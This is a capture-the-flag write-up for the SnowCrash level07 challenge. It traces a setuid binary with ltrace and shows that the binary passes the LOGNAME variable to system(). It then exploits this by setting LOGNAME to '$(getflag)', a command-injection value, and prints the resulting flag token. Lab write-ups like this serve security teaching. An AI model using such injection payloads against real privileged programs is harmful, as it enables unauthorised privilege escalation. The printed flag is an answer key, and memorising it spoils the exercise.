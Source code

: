 # Level 07

## Solution Steps

1. First, when we switch to level07 user and run the file, we get a simple output:
```bash
level07@SnowCrash:~$ ./level07
level07
```

2. We use `ltrace` to analyze the program:
```bash
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff854, 0x80485b0, 0x8048620 <unfinished ...>
getegid() = 2007
geteuid() = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
getenv("LOGNAME") = "level07"
asprintf(0xbffff7a4, 0x8048688, 0xbffff7c, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07")
```

3. From the `ltrace` output, we can see that the program reads the `LOGNAME` environment variable and prints its content.

4. We exploit this vulnerability by changing the `LOGNAME` variable with command injection:
```bash
level07@SnowCrash:~$ export LOGNAME='$(getflag)'
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

## Flag
```
fiumuikeil55xe9cu4dood66h
```